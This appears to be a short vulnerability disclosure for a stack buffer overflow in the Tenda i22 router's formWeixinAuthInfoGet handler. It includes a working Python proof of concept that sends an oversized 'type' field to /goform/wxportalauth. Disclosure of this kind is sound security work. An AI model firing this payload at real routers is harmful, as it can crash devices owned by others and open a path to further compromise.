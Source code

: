 ## formWeixinAuthInfoGet

tenda product: https://www.tenda.com.cn/download/detail-2747.html

### describe

tenda i22 V1.0.0.3 has a stack buffer overflow vulnerability

![alt text](./imgs/formWeixinAuthInfoGet.png)

### PoC

```python
import requests

ip = "192.168.85.143"
url = "http://" + ip + "/goform/wxportalauth"
payload = b"a"*2000

data = {
    "type": "a" * 0x1000
}

response = requests.post(url, data=data)
print(response.text)
```

![alt text](./imgs/formWeixinAuthInfoGet-res.png)